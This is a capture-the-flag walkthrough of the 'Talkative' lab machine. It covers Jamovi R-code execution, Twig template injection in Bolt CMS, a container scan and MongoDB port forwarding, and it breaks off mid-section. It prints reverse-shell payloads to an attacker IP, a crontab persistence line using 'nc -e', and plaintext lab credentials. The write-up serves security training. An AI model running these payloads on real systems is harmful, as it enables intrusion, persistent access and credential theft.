





# Talkative Writeup

## Summary

Nmap reveals a [Jamovi](https://www.jamovi.org/) instance, a [Rocket.Chat](https://www.rocket.chat/), and a business website whose source code reveals that it is powered by [Bolt CMS](https://boltcms.io/) instance. The Jamovi instance is not password protected so we can use one of its features to execute R code and obtain a reverse shell into a Docker container. The Docker container contains a file with credentials, which can be used to login to the Bolt CMS.

Within Bolt CMS, we can use it's templating language, Twig, to trigger a reverse shell when a certain page is loaded. This gets us into another Docker container from which we can ssh to the host using the credentials we found in the Jamovi Docker container. This gives us access to the `user.txt` flag.

Scanning for internal open ports finds a MongoDB server. We port forward the server to our machine and use the MongoDB shell to change the Rocket.Chat admin user's password.

Now we can sign into Rocket.Chat and add a webhook that creates a reverse shell when any message is sent in the Rocket.Chat instance. This gets us into yet another Docker container. We run a container penetration testing tool that finds a privilege granted to the container that allows us to read any file on the host. We read the `root.txt` flag.

## Enumeration

### Nmap

First, let's scan for open ports using `nmap`. We can quickly scan for open ports and store them in a variable: `ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.155 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`. Then, we can scan those specific ports in depth by running `nmap`'s built-in scripts: `nmap -p$ports -sC -sV 10.10.11.155`.

```
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
80/tcp   open     http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://talkative.htb
|_http-server-header: Apache/2.4.52 (Debian)
3000/tcp open     ppp?
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     X-XSS-Protection: 1
|     X-Instance-ID: xzCZGiGBGnor7xYdS
|     Content-Type: text/html; charset=utf-8
|     Vary: Accept-Encoding
|     Date: Tue, 26 Jul 2022 00:35:32 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <link rel="stylesheet" type="text/css" class="__meteor-css__" href="/3ab95015403368c507c78b4228d38a494ef33a08.css?meteor_css_resource=true">
|     <meta charset="utf-8" />
|     <meta http-equiv="content-type" content="text/html; charset=utf-8" />
|     <meta http-equiv="expires" content="-1" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="fragment" content="!" />
|     <meta name="distribution" content="global" />
|     <meta name="rating" content="general" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no" />
|     <meta name="mobile-web-app-capable" content="yes" />
|     <meta name="apple-mobile-web-app-capable" conten
|   Help, NCP:
|_    HTTP/1.1 400 Bad Request
8080/tcp open     http    Tornado httpd 5.0
|_http-title: jamovi
|_http-server-header: TornadoServer/5.0
8081/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
8082/tcp open     http    Tornado httpd 5.0
|_http-title: 404: Not Found
|_http-server-header: TornadoServer/5.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.92%I=7%D=7/25%Time=62DF36D6%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,33C2,"HTTP/1\.1\x20200\x20OK\r\nX-XSS-Protection:\x201\r\nX-In
SF:stance-ID:\x20xzCZGiGBGnor7xYdS\r\nContent-Type:\x20text/html;\x20chars
SF:et=utf-8\r\nVary:\x20Accept-Encoding\r\nDate:\x20Tue,\x2026\x20Jul\x202
SF:022\x2000:35:32\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html
SF:>\n<html>\n<head>\n\x20\x20<link\x20rel=\"stylesheet\"\x20type=\"text/c
SF:ss\"\x20class=\"__meteor-css__\"\x20href=\"/3ab95015403368c507c78b4228d
SF:38a494ef33a08\.css\?meteor_css_resource=true\">\n<meta\x20charset=\"utf
SF:-8\"\x20/>\n\t<meta\x20http-equiv=\"content-type\"\x20content=\"text/ht
SF:ml;\x20charset=utf-8\"\x20/>\n\t<meta\x20http-equiv=\"expires\"\x20cont
SF:ent=\"-1\"\x20/>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=
SF:\"IE=edge\"\x20/>\n\t<meta\x20name=\"fragment\"\x20content=\"!\"\x20/>\
SF:n\t<meta\x20name=\"distribution\"\x20content=\"global\"\x20/>\n\t<meta\
SF:x20name=\"rating\"\x20content=\"general\"\x20/>\n\t<meta\x20name=\"view
SF:port\"\x20content=\"width=device-width,\x20initial-scale=1,\x20maximum-
SF:scale=1,\x20user-scalable=no\"\x20/>\n\t<meta\x20name=\"mobile-web-app-
SF:capable\"\x20content=\"yes\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-
SF:app-capable\"\x20conten")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\n\r\n")%r(NCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(HTT
SF:POptions,33C2,"HTTP/1\.1\x20200\x20OK\r\nX-XSS-Protection:\x201\r\nX-In
SF:stance-ID:\x20xzCZGiGBGnor7xYdS\r\nContent-Type:\x20text/html;\x20chars
SF:et=utf-8\r\nVary:\x20Accept-Encoding\r\nDate:\x20Tue,\x2026\x20Jul\x202
SF:022\x2000:35:32\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html
SF:>\n<html>\n<head>\n\x20\x20<link\x20rel=\"stylesheet\"\x20type=\"text/c
SF:ss\"\x20class=\"__meteor-css__\"\x20href=\"/3ab95015403368c507c78b4228d
SF:38a494ef33a08\.css\?meteor_css_resource=true\">\n<meta\x20charset=\"utf
SF:-8\"\x20/>\n\t<meta\x20http-equiv=\"content-type\"\x20content=\"text/ht
SF:ml;\x20charset=utf-8\"\x20/>\n\t<meta\x20http-equiv=\"expires\"\x20cont
SF:ent=\"-1\"\x20/>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=
SF:\"IE=edge\"\x20/>\n\t<meta\x20name=\"fragment\"\x20content=\"!\"\x20/>\
SF:n\t<meta\x20name=\"distribution\"\x20content=\"global\"\x20/>\n\t<meta\
SF:x20name=\"rating\"\x20content=\"general\"\x20/>\n\t<meta\x20name=\"view
SF:port\"\x20content=\"width=device-width,\x20initial-scale=1,\x20maximum-
SF:scale=1,\x20user-scalable=no\"\x20/>\n\t<meta\x20name=\"mobile-web-app-
SF:capable\"\x20content=\"yes\"\x20/>\n\t<meta\x20name=\"apple-mobile-web-
SF:app-capable\"\x20conten");
Service Info: Host: 172.17.0.11
```

Let's add the `talkative.htb` domain to `/etc/hosts`: `echo "10.10.11.155 talkative.htb" | sudo tee -a /etc/hosts`.

### Port `80` (Apache)

Now, we can view the website running on port `80`.


There is a products section of the website that says "Talkative provides a standalone chat app for individuals and for enterprises as well with the help from rocket chat - Our newest partner in providing solutions to enterprises in need for a dedicated business communication ap."



So, we are likely going to see a [Rocket.Chat](https://rocket.chat/) instance (probably port `3000`), similarly to the [Paper](../Paper/README.md) machine. There are also mentions of [Jamovi](https://www.jamovi.org/), which `nmap` confirms is running on port `8080`.

Looking at the source code of the site shows `<meta name="generator" content="Bolt">`. Guessing that the path is `/bolt` is correct. Bolt appears to be the CMS that the website is using. According to Wikipedia, "[Bolt](https://boltcms.io/) is a free, open-source content management system based on PHP." Going to `/bolt` redirects to `/bolt/login/`:



Let's brute force directories with `ffuf -w /usr/share/dirb/wordlists/common.txt -u http://talkative.htb/FUZZ` (using a small wordlist since requests were quite slow to process). This doesn't find anything interesting.


### Virtual Host Scanning

Since we know the domain name, we can scan for other virtual hosts. Let's scan for subdomains with `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://talkative.htb/ -H "Host: FUZZ.talkative.htb" -fs 300-350`. This finds nothing.

### Port `8080` (Jamovi)



There is a nice message on the Jamovi application by default:

```
Hi

We found a security issue with this version of jamovi, and out of an abundance of caution, we recommend that you update to a newer version when you can.

You can continue to use this version of jamovi, but we'd advise you not to open data files from sources you do not trust until you update to a newer version. Sorry for the inconvenience.

Update to the latest version today.

– the jamovi team
```

Clicking on the three dots in the top right slides out a panel that says "Version 0.9.5.5" on the bottom.

Searching for "jamovi 0.9.5.5 exploit" finds [CVE-2021-28079](https://nvd.nist.gov/vuln/detail/CVE-2021-28079) and [a README file from a GitHub repo](https://github.com/theart42/cves/blob/master/CVE-2021-28079/CVE-2021-28079.md). According to the GitHub file, "Jamovi <=1.6.18 is affected by a cross-site scripting (XSS) vulnerability. The column-name is vulnerable to XSS in the ElectronJS Framework. An attacker can make a .omv (Jamovi) document containing a payload. When opened by victim, the payload is triggered."

This doesn't appear to apply to our situation since we would need a user to open our malicious file.

Searching for "jamovi exploit rce" finds [About arbitrary code](https://www.jamovi.org/about-arbitrary-code.html), which mentions how the [Rj Editor](https://blog.jamovi.org/2018/07/30/rj.html) can be used for malicious purposes. According to a [blog post](https://blog.jamovi.org/2018/07/30/rj.html), "Rj is a new module for the jamovi statistical spreadsheet that allows you to use the R programming language to analyse data from within jamovi."

You can open the Rj editor by clicking the R icon at the top and then clicking "Rj editor." Looking up how to run a system command finds [Invoke a System Command](https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html), which says that the function is `system`. We need to set `intern` to `TRUE` so the output of the command is captured. Then, just paste `system("cat /etc/passwd", intern=TRUE)` into the Rj editor and press CTRL + SHIFT + ENTER to run.



We get the contents of the `/etc/passwd` file. So, now let's get a reverse shell. Our payload is `system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/17916 0>&1'", intern=TRUE)`. Start a listener with [pwncat](https://github.com/calebstewart/pwncat) by running `pwncat-cs -lp 17916`. Then, execute the payload with CTRL + SHIFT + ENTER. Sure enough we get a revere shell!

Our shell prompt is `root@b06821bbda78` so this looks to be a docker container. This is confirmed because there is a `.dockerenv` file in `/`.

Looking in the `/root` directory shows a `bolt-administration.omv` file:

```
(remote) root@b06821bbda78:/root# ls -la
total 28
drwx------ 1 root root 4096 Mar  7 23:19 .
drwxr-xr-x 1 root root 4096 Mar  7 23:18 ..
lrwxrwxrwx 1 root root    9 Mar  7 23:19 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 3 root root 4096 Jul 26 01:28 .jamovi
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 2 root root 4096 Aug 15  2021 Documents
-rw-r--r-- 1 root root 2192 Aug 15  2021 bolt-administration.omv
```

We can download the file in [pwncat](https://github.com/calebstewart/pwncat) by running `download /root/bolt-administration.omv` in the local shell.

It looks like `.omv` files are ZIP files:

```
$ file bolt-administration.omv
bolt-administration.omv: Zip archive data, at least v2.0 to extract, compression method=deflate
```

Let's look at the contents of the ZIP archive:

```
$ unzip bolt-administration.omv
Archive:  bolt-administration.omv
  inflating: META-INF/MANIFEST.MF
  inflating: meta
  inflating: index.html
  inflating: metadata.json
  inflating: xdata.json
  inflating: data.bin
  inflating: 01 empty/analysis
```

Looking at the `xdata.json` file reveals some credentials:

```json
{"A": {"labels": [[0, "Username", "Username", false], [1, "matt@talkative.htb", "matt@talkative.htb", false], [2, "janit@talkative.htb", "janit@talkative.htb", false], [3, "saul@talkative.htb", "saul@talkative.htb", false]]}, "B": {"labels": [[0, "Password", "Password", false], [1, "jeO09ufhWD<s", "jeO09ufhWD<s", false], [2, "bZ89h}V<S_DA", "bZ89h}V<S_DA", false], [3, ")SQWGm>9KHEA", ")SQWGm>9KHEA", false]]}, "C": {"labels": []}}
```

Credentials:

```
matt@talkative.htb:jeO09ufhWD<s
janit@talkative.htb:bZ89h}V<S_DA
saul@talkative.htb:)SQWGm>9KHEA
```

None of the credentials work for Rocket.Chat hosted at `http://talkative.htb:3000/home`.

### Bolt CMS (Port `80`)

Using any of the credentials on the Bolt CMS hosted at `http://talkative.htb/bolt/login` displays the message "Authentication request could not be processed due to a system problem." Trying the username `admin` and the first password (`jeO09ufhWD<s`) works and signs us in.

Going to the [file manager](http://talkative.htb/bolt/filemanager/files?path=/stock) and trying to upload a file ending in `.php` doesn't work. Trying some more advanced techniques (appending a PNG's magic bytes with `printf "\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[<?php phpInfo(); ?>" > exploit_test.png.php`) of hiding the fact that we are uploading a PHP file also doesn't work.

After some searching online, we learning that Bolt CMS ues the [Twig](https://twig.symfony.com/) templating engine. There are some example payloads on the [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig) GitHub page. We should be able to use `{{['cat\x20/etc/passwd']|filter('system')}}` to run commands.

We can click on "File management" then "View & edit templates" and navigate to the `/base-2021/index.twig` file. Presumably, this is the template used on the main page of the website. Inside the main block we can paste our payload (`{{['cat\x20/etc/passwd']|filter('system')}}`) and test if it works:

```cs




  {{['cat\x20/etc/passwd']|filter('system')}}

  

  

  

  

  
    
  

  
    
  

  
    
  

  

  

  

  


```

Click "Save changes". Then, go to "Maintence", navigate to "[Clear the cache](http://talkative.htb/bolt/clearcache)", and click the "Clear the cache" button. This will make our changes present on the main page. Now, looking at `http://talkative.htb/` we see our command's output:


Now, we need a reverse shell payload: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.7/21916 0>&1"']|filter('system')}}`. Paste this into the template from before, clear the cache, start a reverse shell listener by executing `pwncat-cs -lp 21916`,  then make a request for `http://talkative.htb/`. This should spawn a reverse shell in yet another Docker container. The reverse shell can also be pasted into the `themes/base-2021/record.twig` file instead. Then, navigate to one of the people pages (like [this one](http://talkative.htb/person/matt-williams)) instead of the home page to spawn the shell.

## Foothold

The [Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) page on HackTricks mentions a great tool called [CDK](https://github.com/cdk-team/CDK#installationdelivery) for breaking out of Docker containers. We [download the program from GitHub](https://github.com/cdk-team/CDK/releases/), upload it using pwntools by running `upload Downloads/cdk_linux_amd64` in the local shell, and then run a full scan with `./cdk_linux_amd64 eva --full`:

```
[Information Gathering - System Info]
2022/07/26 03:40:08 current dir: /tmp
2022/07/26 03:40:08 current user: www-data uid: 33 gid: 33 home: /var/www
2022/07/26 03:40:08 hostname: b2320c61b4fd
2022/07/26 03:40:08 debian debian 11.2 kernel: 5.4.0-81-generic

[Information Gathering - Services]

[Information Gathering - Commands and Capabilities]
2022/07/26 03:40:08 available commands:
        curl,find,ps,php,apt,dpkg,apache2,ssh,git,mount,gcc,g++,make,base64,perl
2022/07/26 03:40:08 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 0000000000000000
        CapEff: 0000000000000000
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x0000000000000000 =
        Add capability list:
[*] Maybe you can exploit the Capabilities below:

[Information Gathering - Mounts]

[Information Gathering - Net Namespace]
        container net namespace isolated.

[Information Gathering - Sysctl Variables]
2022/07/26 03:40:08 net.ipv4.conf.all.route_localnet = 0

[Discovery - K8s API Server]
2022/07/26 03:40:08 checking if api-server allows system:anonymous request.
err found while searching local K8s apiserver addr.:
err: cannot find kubernetes api host in ENV
        api-server forbids anonymous request.
        response:

[Discovery - K8s Service Account]
load K8s service account token error.:
open /var/run/secrets/kubernetes.io/serviceaccount/token: no such file or directory

[Discovery - Cloud Provider Metadata API]
2022/07/26 03:40:09 failed to dial Alibaba Cloud API.
2022/07/26 03:40:10 failed to dial Azure API.
2022/07/26 03:40:11 failed to dial Google Cloud API.
2022/07/26 03:40:12 failed to dial Tencent Cloud API.
2022/07/26 03:40:13 failed to dial OpenStack API.
2022/07/26 03:40:14 failed to dial Amazon Web Services (AWS) API.
2022/07/26 03:40:15 failed to dial ucloud API.

[Information Gathering - DNS-Based Service Discovery]
error when requesting coreDNS: lookup any.any.svc.cluster.local. on 1.1.1.1:53: read udp 172.17.0.11:46856->1.1.1.1:53: i/o timeout
error when requesting coreDNS: lookup any.any.any.svc.cluster.local. on 1.1.1.1:53: read udp 172.17.0.11:44897->1.1.1.1:53: i/o timeout

[Information Gathering - Sensitive Files]
        .dockerenv - /.dockerenv
        /.bashrc - /etc/skel/.bashrc

[Information Gathering - ASLR]
2022/07/26 03:40:38 /proc/sys/kernel/randomize_va_space file content: 2
2022/07/26 03:40:38 ASLR is enabled.

[Information Gathering - Cgroups]
2022/07/26 03:40:38 /proc/1/cgroup file content:
        12:memory:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        11:cpuset:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        10:perf_event:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        9:freezer:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        8:cpu,cpuacct:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        7:rdma:/
        6:pids:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        5:devices:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        4:net_cls,net_prio:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        3:blkio:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        2:hugetlb:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        1:name=systemd:/docker/b2320c61b4fdf97de13dedbcba6a56abc44be2b86b3e060137cfb906a209feef
        0::/system.slice/containerd.service
2022/07/26 03:40:38 /proc/self/cgroup file added content (compare pid 1) :
```

This does not find anything useful.

However, within this container, we have `ssh` installed so we can try to `ssh` to the host at `10.10.11.155`. Using the username `saul` that we saw before with the password that worked before for Bolt (`jeO09ufhWD<s`) gets us access to the main machine.

We can now run `cat user.txt` to get the `user.txt` flag.

## Lateral Movement

We can get some persistance by running `(crontab -l ; echo "* * * * * nc -e /bin/bash 10.10.14.98 9001")|crontab 2> /dev/null` (based on [this command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md#crontab---reverse-shell)). If we ever lose the shell, just run `nc -nvlp 9001` and wait for at most 1 minute.

Upload linPEAS and run with `./linpeas.sh -a 2>&1 | tee linpeas_report.txt`. Download the report with `download linepeas_report.txt` in the local terminal. You can open [linpeas_report.txt](./linpeas_report.txt) with `less -R linpeas_report.txt`.

Upload [pspy](https://github.com/DominicBreuker/pspy) and execute to see if there are any unusual processes. Make sure to use the 32-bit version.

Immediately we see the below line:

```
2022/07/26 04:34:10 CMD: UID=999  PID=1214   | mongod --smallfiles --replSet rs0 --oplogSize 128 --bind_ip_all
```

So, there is probably a mongodb server running.

The output below is also interesting:

```
2022/07/26 04:36:01 CMD: UID=0    PID=124521 | /usr/sbin/CRON -f
2022/07/26 04:36:01 CMD: UID=0    PID=124525 | /bin/sh -c cp /root/.backup/passwd /etc/passwd
2022/07/26 04:36:01 CMD: UID=0    PID=124526 | /bin/sh -c python3 /root/.backup/update_mongo.py
2022/07/26 04:36:01 CMD: UID=0    PID=124528 | /bin/sh -c cp /root/.backup/passwd /etc/passwd
```

There is a file `/root/.backup/update_mongo.py` that is ran on a schedule.

We run `(netstat -punta || ss --ntpu)` to see what is available on open ports. Interestingly, sometimes when running this command the below line appears:

```
tcp        0      0 172.17.0.1:34506        172.17.0.2:27017        TIME_WAIT   -
```

`27017` is the default mongodb port so we have likely just found a mongodb server at `172.17.0.2:27017`. Running `curl 172.17.0.2:27017` prints "It looks like you are trying to access MongoDB over HTTP on the native driver port," so this is mongodb.

The commands `mongo` and `mongosh` are not available on the box so we have to forward the port to our machine. Unfortunately, I could not get ssh port forwarding to work (ssh connections just timed out). Instead, we can use [jpillora/chisel](https://github.com/jpillora/chisel) to forward the port. According to the [GitHub repo](https://github.com/jpillora/chisel), "Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH."

Download the 386 version of `chisel` for the target (ex: `chisel_1.7.7_linux_386.gz`). We can run `upload Downloads/chisel_386` in pwncat's local shell (or use `python -m http.server 8080` on the attacker and then run `wget 10.10.14.98:8000/chisel_386` on the target) to upload the tool. Then, on the target machine run `./chisel_386 server -p 40808` to start the server. On the attacker machine run `./chisel client 10.10.11.155:40808 27017:172.17.0.2:27017` to forward the port:

```
saul@talkative:~$ ./chisel_386 server -p 40808
2022/07/26 20:29:09 server: Fingerprint Cg8eQlyIQcC+5x7RKPsakIpNQ2QeXD0XOQa8U98vP4Y=
2022/07/26 20:29:09 server: Listening on http://0.0.0.0:40808
```

```
./chisel client 10.10.11.155:40808 27017:172.17.0.2:27017
2022/07/26 16:29:34 client: Connecting to ws://10.10.11.155:40808
2022/07/26 16:29:34 client: tun: proxy#27017=>172.17.0.2:27017: Listening
2022/07/26 16:29:34 client: Connected (Latency 22.912495ms)
```

Now, we have access to the mongodb server on our attacker machine:

```
$ curl localhost:27017
It looks like you are trying to access MongoDB over HTTP on the native driver port.
```

Then, just run the `mongo` command on the attacker machine and it will automatically connect to the correct database since it is on `localhost` now.

We can view the databases and switch to the `meteor` database:

```
